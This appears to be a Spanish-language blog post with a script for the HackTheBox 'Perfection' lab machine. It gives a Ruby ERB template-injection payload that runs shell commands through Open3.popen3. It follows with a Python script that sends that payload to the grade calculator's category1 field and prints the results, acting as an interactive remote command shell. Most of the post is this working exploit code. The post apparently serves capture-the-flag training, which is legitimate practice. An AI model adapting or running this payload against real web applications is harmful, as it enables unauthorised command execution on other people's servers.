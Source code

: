 ```yaml
---

title: PerfectionHTB 
date: 2024-04-14 09:37 +0800
categories: [Scripts]
tags: [Scripts, HTB]
pin: true
image:
  path: /assets/img/commons/PerfectionHTB/bannerPerfectionHTB.png
  width: 66
  height: 40
  alt: Perfection
---
```


Script para explotar un SSTI gracias a la libreria `webrick 1.7.0` de HTML escrita en `Ruby`. 
1. La variable `categori1` en la ruta `/weighted-grade` es vulnerable a SSTI.
2. Payload -> `<% require 'open3' %><% @a,@b,@c,@d=Open3.popen3('whoami') %><%= @b.readline()%>`

- Referencias:
	- [Hacktricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
	- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby)

<figure style="text-align: center;">
  <img src="/assets/img/commons/PerfectionHTB/PerfectionHTB.png" alt="HTB">
  <figcaption style="font-style: italic; font-size: smaller;"></figcaption>
</figure>

-----------------------------------------------------------------------------------------------

```python
#!/usr/bin/env python3

import requests
import signal
from termcolor import colored
from bs4 import BeautifulSoup

def def_handler(sig, frame):
    print(colored(f"\n[!] Saliendo...\n", 'red'))
    sys.exit(1)
signal.signal(signal.SIGINT, def_handler)

def ssti():
    while True:
        command = input(colored(f"\n[+] Command -> ", 'blue'))
        url = 'http://10.10.11.253/weighted-grade-calc'
        headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36',
    'Referer': 'http://10.10.11.253/weighted-grade',
}
        data = {
    'category1': 'test\n<%=require \'open3\' %><% @a,@b,@c,@d=Open3.popen3(\'isCommand\') %><%= @b.readline()%>'.replace('isCommand', command),
    'grade1': '1',
    'weight1': '100',
    'category2': 'N/A',
    'grade2': '1',
    'weight2': '0',
    'category3': 'N/A',
    'grade3': '1',
    'weight3': '0',
    'category4': 'N/A',
    'grade4': '1',
    'weight4': '0',
    'category5': 'N/A',
    'grade5': '1',
    'weight5': '0'
}
        response = requests.post(url, headers=headers, data=data)
        if response.status_code == 200:
            soup = BeautifulSoup(response.text, 'html.parser')
            paragraphs = soup.find_all('p')
            result = None
            for p in paragraphs:
                text = p.text.strip()
                if 'test' in text and '1%' in text:
                    result = text.replace('test', '').replace(': 1%', '').strip()
                    break
            if result:
                print(colored(f"\t$> ", 'blue') + result)
            else:
                print("[!] Command ERROR")
        else:
            print("Status code:", response.status_code)
def main():
    print(colored(f"\n[+] Ejecución de comandos mediante SSTI en la máquina Perfection de HTB", 'green'))
    ssti()
if __name__ == '__main__':
    main()
```
